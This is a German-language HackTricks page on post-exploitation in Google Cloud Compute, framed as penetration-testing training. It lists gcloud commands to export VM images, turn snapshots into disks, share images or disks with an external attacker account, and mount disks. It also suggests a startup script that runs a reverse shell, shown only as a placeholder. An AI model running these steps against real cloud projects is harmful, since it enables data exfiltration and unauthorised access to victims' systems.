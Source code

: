 # GCP - Compute Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Compute

Für weitere Informationen über Compute und VPC (Networking) siehe:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Export & Inspektion von Images lokal

Dies würde einem Angreifer ermöglichen, **auf die in bereits vorhandenen Images enthaltenen Daten zuzugreifen** oder **neue Images von laufenden VMs zu erstellen** und auf deren Daten zuzugreifen, ohne Zugriff auf die laufende VM zu haben.

Es ist möglich, ein VM-Image in einen Bucket zu exportieren, es dann herunterzuladen und lokal mit dem Befehl zu mounten:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Vor der Durchführung dieser Aktion benötigt der Angreifer möglicherweise Privilegien über den Storage-Bucket und auf jeden Fall **Privilegien über cloudbuild**, da es der **Service** ist, der aufgefordert wird, den Export durchzuführen.\
Außerdem benötigen der codebuild SA und der compute SA privilegierte Berechtigungen, damit dies funktioniert.\
Der cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` benötigt:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Und der SA `<project-id>-compute@developer.gserviceaccount.com` benötigt:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Export & Inspektion von Snapshots & Disks lokal

Es ist nicht möglich, Snapshots und Disks direkt zu exportieren, aber es ist möglich, **einen Snapshot in eine Disk, eine Disk in ein Image zu transformieren** und gemäß dem **vorherigen Abschnitt** dieses Image zu exportieren, um es lokal zu inspizieren.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Überprüfen eines Images durch Erstellen einer VM

Mit dem Ziel, auf die **in einem Image gespeicherten Daten** oder innerhalb einer **laufenden VM** zuzugreifen, von der ein Angreifer **ein Image erstellt hat,** ist es möglich, einem externen Konto Zugriff auf das Image zu gewähren:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
und dann eine neue VM daraus erstellen:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Wenn Sie Ihrem externen Konto keinen Zugriff auf das Image gewähren konnten, könnten Sie eine VM mit diesem Image im Projekt des Opfers starten und **das Metadaten-Skript eine Reverse Shell ausführen lassen**, um auf das Image zuzugreifen, indem Sie den Parameter hinzufügen:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Mit dem Ziel, auf die **Daten, die auf einer Festplatte oder einem Snapshot gespeichert sind, zuzugreifen, könntest du den Snapshot in eine Festplatte, eine Festplatte in ein Image umwandeln und den vorherigen Schritten folgen.**

Oder du könntest **einem externen Konto Zugriff** auf die Festplatte gewähren (wenn der Ausgangspunkt ein Snapshot ist, gewähre Zugriff auf den Snapshot oder erstelle eine Festplatte daraus):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Die Festplatte an** eine Instanz **anhängen**:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Mounten Sie die Festplatte innerhalb der VM:

1.  **SSH in die VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifizieren Sie die Festplatte**: Sobald Sie in der VM sind, identifizieren Sie die neue Festplatte, indem Sie die Festplattengeräte auflisten. Typischerweise finden Sie sie als `/dev/sdb`, `/dev/sdc`, etc.
3. **Formatieren und Mounten der Festplatte** (wenn es sich um eine neue oder rohe Festplatte handelt):
*   Erstellen Sie einen Einhängepunkt:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Mounten Sie die Festplatte:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Wenn Sie **keinen Zugriff auf ein externes Projekt** auf den Snapshot oder die Festplatte gewähren können, müssen Sie möglicherweise **diese Aktionen innerhalb einer Instanz im selben Projekt wie der Snapshot/die Festplatte durchführen**.

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichen.

</details>
{% endhint %}
